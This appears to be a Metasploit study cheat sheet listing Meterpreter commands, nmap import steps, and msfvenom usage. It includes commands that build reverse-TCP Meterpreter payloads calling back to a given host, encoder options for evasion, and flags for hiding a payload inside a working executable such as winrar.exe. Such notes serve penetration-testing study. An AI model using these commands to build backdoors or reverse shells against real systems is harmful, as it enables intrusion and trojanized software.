 # Meterpreter

- lls : local ls
- lpwd : local pwd
- lcd : local cd
- pwd : remote pwd
- ls : remote ls
- edit <txtfile_path>
- download flag.zip
- upload <backdoor_file>
- checksum md5 <file_path>
- getenv PATH

# Import nmap output in msf:

- db_status
- db_import /PATH-TO-SCAN-RESULTS/SCAN.xml
- hosts
- services 

# msfvenom:
- -a x86 : specify arch
- -p : specify payload
- LHOST,LPORT : specify local host and port
- -f : specify format eg. exe
- `msfvenom -a x86 -p windows/meterpreter/reverse_tcp LHOST-<ip> LPORT=<port> -f exe > sample.exe`
- `msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=192.196.85.2 LPORT=5555 -f elf > payload.bin`
- `msfvenom --list payloads`
- `msfvenom --list formats`

# Encoding:

- `msfvenom --list encoders` : x86/shikata_ga_nai
- -i : iterations of encoding
- -e : encoder to use

# Injecting payload in exe:

- -x : specify executable path like winrar.exe
- -k : to keep original functionality of exe specified above upon exec

# resource scripts (automating):

- /usr/share/metasploit-framework/scripts/resource/
- create .rc file with steps line-by-line
- msfconsole -r <script_file>
- from inside msfconsole, msf6> resource <path_to_rc>